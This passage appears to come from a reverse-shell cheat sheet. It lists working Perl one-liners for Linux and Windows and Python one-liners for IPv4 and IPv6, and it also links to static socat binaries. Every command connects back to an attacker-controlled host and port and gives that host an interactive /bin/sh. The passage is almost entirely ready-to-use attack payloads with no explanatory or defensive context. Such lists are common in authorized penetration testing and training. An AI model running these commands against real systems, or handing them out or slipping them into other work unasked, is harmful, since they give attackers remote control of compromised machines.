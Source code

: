 **Static socat binaries:** [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

***

### **3. Perl Reverse Shells**

#### Linux

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### Windows

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

***

### **4. Python Reverse Shells**

#### Linux IPv4

```python
export RHOST="10.0.0.1";export RPORT=4242
python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

#### Linux IPv6

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
